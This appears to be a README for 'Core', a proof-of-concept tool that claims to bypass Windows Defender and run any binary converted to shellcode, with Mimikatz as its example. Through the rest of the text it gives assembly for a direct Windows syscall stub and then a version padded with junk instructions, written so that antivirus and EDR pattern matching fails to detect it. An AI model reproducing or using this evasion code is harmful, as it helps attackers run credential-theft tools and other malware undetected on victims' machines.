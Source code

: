 # Core
Core bypass Windows Defender and execute any binary converted to shellcode. Core is NOT using any mechanism to prevent
AV/EDR from debug/inspect this code.

Core uses syscall to execute shellcode, any kind of shellcode, in this PoC Mimikatz is converted to shellcode (.exe version)
Core is not calling any API but create memory mapped file and then calls the Nt or Zw functions.

The inner soul of syscalls in 64bit:

```
mov     r10,rcx
mov     eax,0C1h
test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
jne     ntdll!NtCreateThreadEx+0x15 (00007ffa`8c50e635)
syscall
ret
```
or maybe

```
mov r10, rcx
mov eax, 0xC1
syscall
ret

```

but why this syntax ? it too easy for AV/EDR reg.ex pattern matching engine to detect this, why not make more complex or foolish


```

mov BH, 0x5
mov BL, 0x6
cmp BH,BL
mov BH, 0x2
mov BL, 0x4
cmp BH,BL
mov BH, 0x7
mov BL, 0x8
cmp BH,BL
jne go 

labelb:
sub rax, 0x3E8
jmp labelc

nop
labelc:
mov r10,rbx
mov r15, 0x64
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1

mov BH, 0x3
mov BL, 0x2
cmp BH,BL
mov BH, 0x6
mov BL, 0x9
cmp BH,BL
mov BH, 0x9
mov BL, 0x3
cmp BH,BL

syscall
nop
nop
nop
ret

labela:
mov rax, 0x438
nop
jmp labelb

go:
nop
mov rbx, rcx
jmp labela
```

